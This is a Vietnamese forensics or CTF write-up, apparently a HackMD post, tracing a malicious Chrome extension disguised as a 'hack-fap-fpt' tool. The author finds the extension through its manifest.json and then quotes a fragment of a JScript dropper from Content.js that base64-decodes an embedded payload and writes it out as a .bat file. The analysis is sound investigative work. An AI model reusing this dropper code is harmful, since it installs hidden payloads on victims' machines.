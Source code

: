 Nhưng, tiếp theo ta phải tìm file Zip này ở đâu? Tác giả đâu hề cho ta thư mục **Download**.
<p align="center"><img src="https://hackmd.io/_uploads/HJwioap7ex.png" alt="image"></p>

> Sau một lục lọi và suy nghĩ lại thì toi trợ nhớ tên file có nhắc đến **chrome-extension**, à há chắc là folder chứa malware này cần phải import thì mới có thể sử dụng. 

Nhưng, import vào đâu?
<p align="center"><img src="https://hackmd.io/_uploads/HJwioap7ex.png" alt="image"></p>

Thì phải research thôi chứ sao. Sau một thoáng research thì tôi tìm được site sau:
https://www.ninjaone.com/blog/where-are-chrome-extensions-stored/

<p align="center"><img src="https://hackmd.io/_uploads/Syota6a7xe.png" alt="image"></p>

Truy cập theo path trên thì
<p align="center"><img src="https://hackmd.io/_uploads/rJmlR667le.png" alt="image"></p>
Có đến tận 4 cái extension, và khi import extension vào thì tên của bọn nó đã bị chrome encode đi, thì làm sao ta biết được entension nào là nguyên hiểm, chứa mã độc?
<p align="center"><img src="https://hackmd.io/_uploads/ryb006Tmxl.png" alt="image"></p>

Thì trong các folder extension này, đều có 1 file manifest.json, file này chứa các thông tin của extension dưới dạng json.
<p align="center"><img src="https://hackmd.io/_uploads/BJhO1CTXxl.png" alt="image"></p>

Và lục lọi một tí thì toi thấy được extension **hcekfkjfkcfoeohaponopofdhogpecif** có file manifest có đề cập đến *fap*, và trong file .zip do nạn nhân tải về cũng có tên là **hack-fap-fpt-chrome-extension.zip**, thì đây đích thị là nó.
<p align="center"><img src="https://hackmd.io/_uploads/HJFweR6Qex.png" alt="image"></p>

okela, dump nó ra để kiểm tra thoi.

> sau khi dump và mở folder extension này bằng vscode, và bắt đầu tìm kiếm những dấu vết đáng nghi thì mình thấy file **Content.js** này có một hàm tên **inject()** và có 1 biến **aso_ibora** chứa một chuỗi kí tự vô cùng dài, thì theo kinh nghiệm của mình thì nó đang encode cho một thứ gì đó (trông nguy hiểm phết).

<p align="center"><img src="https://hackmd.io/_uploads/BkhtbCa7xl.png" alt="image"></p>

các bạn có thể thấy, nó rất rất dài

<p align="center"><img src="https://hackmd.io/_uploads/HkhcGApXgx.png" alt="image"></p>

và lướt đến cuối chuỗi thì mình thấy đoạn code sau:
```
var silver = WScript.CreateObject("Microsoft.XMLDOM");

	var sinema = silver.createElement("tmp");

	sinema.dataType = "bin.base64";

	sinema.text = aso_ibora;

	var sugar = WScript.CreateObject("ADODB.Stream");
	sugar.Type = 1;
	sugar.Open();
	sugar.Write(sinema.nodeTypedValue);
	var wshShell = WScript.CreateObject("WScript.Shell");
	var tempdir = wshShell.ExpandEnvironmentStrings("%temp%");
	var appdatadir = wshShell.ExpandEnvironmentStrings("%appdata%");
	var path = "yum.bat";
	var is_temp = false;

	if (is_temp) {
		path = tempdir + "\\" + path;
```
